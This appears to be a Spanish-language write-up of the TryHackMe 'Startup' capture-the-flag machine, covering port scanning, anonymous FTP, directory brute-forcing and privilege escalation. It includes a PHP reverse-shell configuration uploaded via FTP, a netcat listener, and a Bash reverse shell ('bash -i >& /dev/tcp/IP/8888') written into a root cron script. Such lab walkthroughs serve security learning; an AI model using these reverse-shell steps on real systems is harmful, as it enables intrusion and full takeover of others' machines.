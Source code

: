 ## Startup

Hola gente!
Este es mi primer "write-up", espero qu elo disfruten.
(Little note for a friend, Esqy thank you for the motivation into making this write-up, I hope I can make more in the future.)
Bueno empezemos!
Primero hacemos un rapido scan con Rustscan, un Nmap mas rapido creado por Bee-san.
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos 3 servicios en esta maquina.
Primero veremos el ftp.
Al parecer este servicio este FTP dejo abierto el login anonimo.
```
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```
Encontramos 2 archivos en esta maquina.
En notice.txt para ser que estan jugando Among Us en la oficina.
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
En el important.jpg parece ser que algunos miembros del equipo se estaban divirtiendo con unos memes.
![meme](https://github.com/Believer1/THM-writeups/blob/main/startup/images/important.jpg)

Ahora emepzemos a buscar directorios en el website
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.199.203
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/23 12:49:11 Starting gobuster
===============================================================
/files (Status: 301)
```

![files](https://github.com/Believer1/THM-writeups/blob/main/startup/images/files.png)


Hmmmm... que raro. Son los mismos archivos que en el FTP. Seran que estan conectados?

Para probar esto subire una "reverse shell" en PHP hecha por PentestMonkey
```
ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Cambiamos el ip por el nuestro del "network" de TryHackMe.
```
ftp> put reverse.php 
local: reverse.php remote: reverse.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```
Y lo ponemos en el FTP.
```
nc -nlvp 1234
listening on [any] 1234 ...
```
Empezamos un "listener" con NetCat.

![reverse](https://github.com/Believer1/THM-writeups/blob/main/startup/images/reverse.png)
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Ahi esta! Conseguimos un "shell".

Usando Linpeas hay unos archivos que me resaltan.
Encontramos un archivo llamado recipe.txt
```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <redactado>
```
Encontramos nuestro primera respuesta.
Ahora pasamos el segundo archivo que es un .pcapng usando el servicio de FTP.
```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
Vemos en wireshark un trafico interesante que revela detalles interesantes.
```www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: <redactado>
```
Cambiamos de usuario y cogemos el segundo flag.
Usando Linpeas encontramos otro archivo /etc/print.sh.
Re-escribimos el archivo con un "reverse shell" en Bash
```bash -i >& /dev/tcp/IP/8888 0>&1```
Esperamos un tiempo ya que esto es una accion programada por el usuario root.
```
root@startup:~# whoami
whoami
root
root@startup:~# 
```
Conseguimos root!
Agarramos el flag en /root/root.txt y completamos la maquina!

Gracias por leer mi primer write-up espero que les ha gustado.
